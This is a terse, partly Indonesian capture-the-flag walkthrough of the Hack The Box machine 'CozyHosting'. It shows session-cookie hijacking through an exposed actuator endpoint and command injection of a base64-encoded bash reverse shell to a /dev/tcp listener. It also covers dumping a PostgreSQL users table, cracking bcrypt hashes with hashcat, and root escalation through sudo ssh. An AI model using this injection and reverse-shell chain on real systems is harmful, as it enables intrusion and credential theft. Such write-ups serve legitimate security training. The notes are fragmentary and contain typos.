 ![[CozyHosting.png]]
#HackTheBox #Machines #Easy 
## 1
nmap
open browser, n paste. it cant, just add on /etc/hosts
open browser again, click login section
open burpsuite
intercept on
i dont know. open terminal n dirsearch login section earlier
u found actuator/session. open on your browser `.../actuator/sessions` >> kirim ke repeater
kinderson with his cookie
dont forget copy the cookie kinderson
on your browser, set proxy to manual 127.0.0.1
after that, open .../admin on your browser >> kirim ke repeater
on burpsuite change the jsessionid = cookie kinderson, and forward
youre on admin website now, scroll down, there is hostname n username mybe
before fill the section, open terminal n run listening port with nc -nvlp port 
back to browser
encode base64 : bash -i >& /dev/tcp/ur ip/port 0>&1 <ubah  spasi dengan [${IFS%??}](https://www.urlencoder.org/)>
host = your ip
urname =( ;echo "encode-an tdi"; | base64 -d | bash) ubah ke url encode lagi
aktifkan url encode dengan klik kanan
kmudian sbmit, liat di burpsuite, ubah cookieny jika perlu >> kirim ke repeater
n check your listener. kayy can connect
ls. you can found cloud.... download it u can use http server or something
after  download that, run this file with jd-gui (filenya)
in bootinf-classes u can found aplication-properties. openit
u can found urname n passwd
open listener/ing use command below ```
```
psql -h 127.0.0.1 -U postgres
\c cozyhosting
\d
select * from users;
// copy admin password
nano //paste admin pass// save with name hadmin.txt
hashcat -a 0 -m 3200 hadmin.txt /...///.../rockyou.txt

su josh // with password hadmin.txt earlier
python3 -c 'import pty;pty.spawm("/bin/bash")'
cd
ls //u can found flag user.txt
sudo with ssh 

cd /rootu can found the flag root user
```
sudo with [ssh](https://gtfobins.github.io/gtfobins/ssh/#sudo)
